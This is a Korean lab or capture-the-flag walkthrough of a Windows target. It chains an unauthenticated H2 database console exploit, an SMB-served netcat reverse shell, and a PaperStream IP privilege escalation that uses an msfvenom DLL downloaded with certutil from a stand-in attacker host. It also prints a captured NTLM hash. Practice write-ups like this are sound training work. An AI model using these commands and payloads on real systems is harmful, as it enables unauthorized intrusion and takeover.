






Nmap을 통해 포트 스캔을 수행함.
```
└─$ nmap 192.168.161.66 -Pn -n --min-rate 3000 --open -oN scan 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-07 07:42 EDT
Nmap scan report for 192.168.161.66
Host is up (0.13s latency).
Not shown: 925 closed tcp ports (reset), 70 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8082/tcp open  blackice-alerts

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

브라우저를 통해 8082번 포트에 접속하면 H2 데이터베이스 로그인 화면으로 접근됨.


계정 정보 없이 Connect 버튼 클릭하여 로그인에 성공함. 메인 페이지에 버전 정보가 확인됌.


searchsploit으로 H2 PoC가 발견됌.
```
└─$ searchsploit H2 1.4.199             
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                   |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                                                                                                                                         | java/local/49384.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

└─$ searchsploit -m 49384                           
  Exploit: H2 Database 1.4.199 - JNI Code Execution
      URL: https://www.exploit-db.com/exploits/49384
     Path: /usr/share/exploitdb/exploits/java/local/49384.txt
    Codes: N/A
 Verified: True
File Type: ASCII text, with very long lines (64895)
Copied to: /home/kali/Desktop/pg/win/jacko/49384.txt
```

PoC 코드사 성공적으로 실행되어 whoami 명령어가 실행됨.



공격자 PC에서 nc.exe를 SMB로 공유한 뒤, Windows가 그 공유 경로의 nc.exe를 실행하는 방식으로 명령어를 삽입함.

```
cmd.exe /c //ATTACKER_IP/Share/nc.exe -e cmd.exe ATTACKER_IP 8082
```

공격자 PC에서 공유된 SMB가 접속되며 몇 분이 지나 8082 리스너에 쉘이 붙음.
```
└─$ impacket-smbserver -smb2support Share /home/kali/Desktop/pg/win/jacko              
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.245.66,49974)
[*] AUTHENTICATE_MESSAGE (JACKO\tony,JACKO)
[*] User JACKO\tony authenticated successfully
[*] tony::JACKO:aaaaaaaaaaaaaaaa:029cc38a6df05d9ff4199ddf647a253b:010100000000000080cb6b612641dd012289458ca7c19f9300000000010010007800550077006b004600430047004400030010007800550077006b004600430047004400020010004400530061004700460041006600440004001000440053006100470046004100660044000700080080cb6b612641dd0106000400020000000800300030000000000000000000000000300000d4cfe910f4f65451624bc3a935f8cfa3faf061f245eb40805602c6574127daf60a001000000000000000000000000000000000000900260063006900660073002f003100390032002e003100360038002e00340035002e003100380038000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:Share)
[*] Disconnecting Share(1:IPC$)
[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (192.168.245.66,49974)
[*] Remaining connections []
```
```
└─$ nc -lnvp 8082                                                          
listening on [any] 8082 ...
connect to [ATTACKER_IP] from (UNKNOWN) [192.168.245.66] 49976
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\H2\service>
```

명령어 사용을 위해 환경 변수를 설정함.
```
C:\Program Files (x86)\H2\service>set PATH=%SystemRoot%\system32;%SystemRoot%;
```

Program files (x86) 폴더 확인 시 PAPERSTREAM IP라는 디렉토리를 발견. 
```
C:\Program Files (x86)>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC2F-6399

 Directory of C:\Program Files (x86)

04/27/2020  09:01 PM    <DIR>          .
04/27/2020  09:01 PM    <DIR>          ..
04/27/2020  08:59 PM    <DIR>          Common Files
04/27/2020  09:01 PM    <DIR>          fiScanner
04/27/2020  08:59 PM    <DIR>          H2
05/03/2022  06:22 PM    <DIR>          Internet Explorer
03/18/2019  09:52 PM    <DIR>          Microsoft.NET
04/27/2020  09:01 PM    <DIR>          PaperStream IP
03/18/2019  11:20 PM    <DIR>          Windows Defender
03/18/2019  09:52 PM    <DIR>          Windows Mail
04/24/2020  09:50 AM    <DIR>          Windows Media Player
03/18/2019  11:23 PM    <DIR>          Windows Multimedia Platform
03/18/2019  10:02 PM    <DIR>          Windows NT
03/18/2019  11:23 PM    <DIR>          Windows Photo Viewer
03/18/2019  11:23 PM    <DIR>          Windows Portable Devices
03/18/2019  09:52 PM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              16 Dir(s)   7,198,302,208 bytes free
```

exploit-db에서 익스플로잇을 검색하면 다음과 같은 결과가 나타납니다.
```
└─$ searchsploit PaperStream IP                                                        
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation      | windows/local/49382.ps1
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

PoC 코드에서 $PayloadFile 경로를 변경함. 또한 주석을 참고하여 익스프로잇 코드 작성.
※TAMP 폴더에 익스플로잇 코드 저장 시 삭제가됌.

```
└─$ msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=ATTACKER_IP LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
```

공격자 PC로 부터 페이로드를 다운로드.
```
C:\Users\tony\Desktop>certutil -urlcache -split -f http://ATTACKER_IP/49382.ps1 49382.ps1
certutil -urlcache -split -f http://ATTACKER_IP/49382.ps1 49382.ps1
****  Online  ****
  0000  ...
  094a
CertUtil: -URLCache command completed successfully.

C:\Users\tony\Desktop>certutil -urlcache -split -f http://ATTACKER_IP/shell.dll shell.dll
certutil -urlcache -split -f http://ATTACKER_IP/shell.dll shell.dll
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
```

ps1 파일 실행을 위해 -ep bypass 옵션을 사용하여 우회.
```
C:\Users\tony\Desktop>C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\Users\tony\Desktop\49382.ps1
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\Users\tony\Desktop\49382.ps1
Writable location found, copying payload to C:\JavaTemp\
Payload copied, triggering...
```

Administrator 권한의 쉘 획득 성공.
```
└─$ nc -nlvp 4444                                                          
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [192.168.245.66] 50064
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

